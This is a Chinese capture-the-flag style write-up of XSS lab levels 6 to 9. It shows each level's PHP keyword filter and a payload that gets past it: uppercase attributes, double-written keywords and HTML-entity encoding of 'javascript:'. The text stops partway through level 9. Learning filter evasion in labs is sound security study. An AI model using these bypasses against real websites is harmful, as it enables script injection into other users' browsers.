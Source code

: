**level6**  
尝试payload，发现变成`<scr_ipt>alert(1)</scrpit>`，尝试5的payload，发现变成`<a hr_ef=javascript:alert(1)>hack</a>">`，发现href被过滤了，课源码，

```
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```

发现过滤了五个东西，可以利用html的特性，HREF和href的效果是一样的，大小写不会区分
`"> <a HREF=javascript:alert(1)>hack</a>`

**level7**  
尝试输入payload，发现回显`<>alert(1)</scrpit>`，整个被替换为空了，那么6的payload当然不能使用了，看题目源码
```
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```

果然全部换为空，但是php特性，替换只会替换一个，比如`<scriscriptpt>`就会被替换为`<script>`，这就是双写绕过？
`"> <scriscriptpt>alert(1)</scriscriptpt>`

**level8**  
尝试原始payload，发现会被替换`<scr_ipt>alert(1)</scr_ipt>`，并且是链接形式，好像没啥区别，看源码
```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```

新增的是双引号被过滤了，
`"> <a href=javascript:alert(1)>hack</a>`进去变成`<a hr_ef=javascr_ipt:alert(1)>hack</a>`，href可以通过大写绕过，但是javascript怎么搞

HTML 实体有两种写法，第一种是 &entity_name; 形式，比如 `$lt;` 表示小于号，"&"开头，";"结尾；第二种是 &#entity_number; 形式，其中 entity_number 是字符的实体编号，比如 `&#60;` 也能表示小于号。使用第二种方式，任何字符（包括 ASCII 字符）都有其实体表示。https://mothereff.in/html-entities 可以提供转换，"&#"开头，";"结尾

突然想起来这个是要加入到链接的，HREF不用写的
`javascr&#x69;pt:alert(1)`

**level9**  
尝试上一题的payload，回显`<a href="您的链接不合法？有没有！">`，看看源码

```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);

false===strpos($str7,'http://')
```
